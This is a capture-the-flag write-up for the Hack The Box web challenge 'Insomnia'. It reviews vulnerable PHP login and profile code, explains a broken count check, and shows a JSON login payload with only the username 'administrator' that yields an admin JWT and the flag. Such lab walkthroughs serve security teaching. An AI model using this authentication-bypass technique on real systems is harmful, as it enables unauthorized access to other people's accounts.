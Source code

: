 # Insomnia

![Insomnia - thumbnail](/ctf/hack-the-box/challenges/web/insomnia/insomnia-thumbnail.gif)

## Box description

Welcome back to Insomnia Factory, where you might have to work under the enchanting glow of the moon, crafting dreams
and weaving sleepless tales.

## Challenge description

The web application provides several pages: Home, Sign-up, Sign-in, and Profile. Users can create accounts via the
Sign-up form and log in using the Sign-in page.

Once logged in, users are redirected to their profile page. Here's an example of the profile page after login:

![Insomnia - profile page](/ctf/hack-the-box/challenges/web/insomnia/insomnia-profile-page.png)

The challenge lies in exploiting the login mechanism to gain access to the administrator's profile and retrieve the
flag.

## Code review

### Profile controller

The profile controller contains the logic for rendering the profile page, including how the flag is revealed to
administrators.

```php:line-numbers {7}
$token = (string) $_COOKIE["token"] ?? null;
$flag = file_get_contents(APPPATH . "/../flag.txt");
if (isset($token)) {
    $key = (string) getenv("JWT_SECRET");
    $jwt_decode = JWT::decode($token, new Key($key, "HS256"));
    $username = $jwt_decode->username;
    if ($username == "administrator") {
        return view("ProfilePage", [
            "username" => $username,
            "content" => $flag,
        ]);
    } else {
        $content = "Haven't seen you for a while";
        return view("ProfilePage", [
            "username" => $username,
            "content" => $content,
        ]);
    }
}
```

The flag is only displayed if the `username` in the decoded **JWT** token is **administrator**.

### User controller

The **login** function in the user controller contains a vulnerability that allows bypassing the login process with a
crafted payload.

```php:line-numbers {5,8}
public function login()
{
    $db = db_connect();
    $json_data = request()->getJSON(true);
    if (!count($json_data) == 2) {
        return $this->respond("Please provide username and password", 404);
    }
    $query = $db->table("users")->getWhere($json_data, 1, 0);
    $result = $query->getRowArray();
    if (!$result) {
        return $this->respond("User not found", 404);
    } else {
        $key = (string) getenv("JWT_SECRET");
        $iat = time();
        $exp = $iat + 36000;
        $headers = [
            "alg" => "HS256",
            "typ" => "JWT",
        ];
        $payload = [
            "iat" => $iat,
            "exp" => $exp,
            "username" => $result["username"],
        ];
        $token = JWT::encode($payload, $key, "HS256");

        $response = [
            "message" => "Login Succesful",
            "token" => $token,
        ];
        return $this->respond($response, 200);
    }
}
```

Looking at the following condition `if (!count($json_data) == 2)` the login function expects an array with two elements.
But using `!count($json_data) == 2` instead of `count($json_data) !== 2` will always return false. So we can send an
array with one element to bypass the login.

To ensure that we can send our payload we need to check the `getWhere` function in the user controller. After digging
into the code we found that this function add a `where` clause to the query builder. So we can send a payload with only
the username field to bypass the login.

## Exploit

### Step 1: Bypass the Login

To exploit the vulnerability, we send a POST request to the login endpoint with a payload containing only the username:

```json
{
    "username": "administrator"
}
```

Using **Burp Suite**, we send this request and receive a successful response containing a JWT token for the
administrator:

```json
{
    "message": "Login Succesful",
    "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3Mjk2ODM3NDUsImV4cCI6MTcyOTcxOTc0NSwidXNlcm5hbWUiOiJhZG1pbmlzdHJhdG9yIn0.Jn6DFrXpONJqBsVO1irVTjd4cpHkd7d8LaAwrlqWsao"
}
```

### Step 2: Access the Administrator Profile

Next, we set the JWT token in our browser's cookies and reload the profile page. The application verifies the token,
sees that the username is administrator, and displays the flag.

![Insomnia - flag](/ctf/hack-the-box/challenges/web/insomnia/insomnia-flag.png)

We successfully retrieve the flag! Now we can try our payload on the real **HTB** box to retrieve the flag

![Insomnia - pwned](/ctf/hack-the-box/challenges/web/insomnia/insomnia-pwned.png)

